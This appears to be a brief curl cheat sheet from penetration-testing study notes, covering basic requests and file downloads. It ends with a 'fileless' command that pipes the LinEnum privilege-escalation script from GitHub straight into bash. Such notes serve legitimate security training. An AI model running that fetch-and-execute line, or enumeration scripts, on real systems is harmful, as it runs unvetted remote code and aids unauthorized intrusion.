 ```
curl http://SERVER_IP:PORT/
```
## **HEADER**
```
curl -I https://academy.hackthebox.com
```
## **POST**
```
curl -s http://SERVER_IP:PORT/ -X POST
```
```
curl -s http://SERVER_IP:PORT/ -X POST -d "param1=sample"
```
## DOWNLOAD
#### Download a File Using cURL
```shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
#### Fileless Download with cURL
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
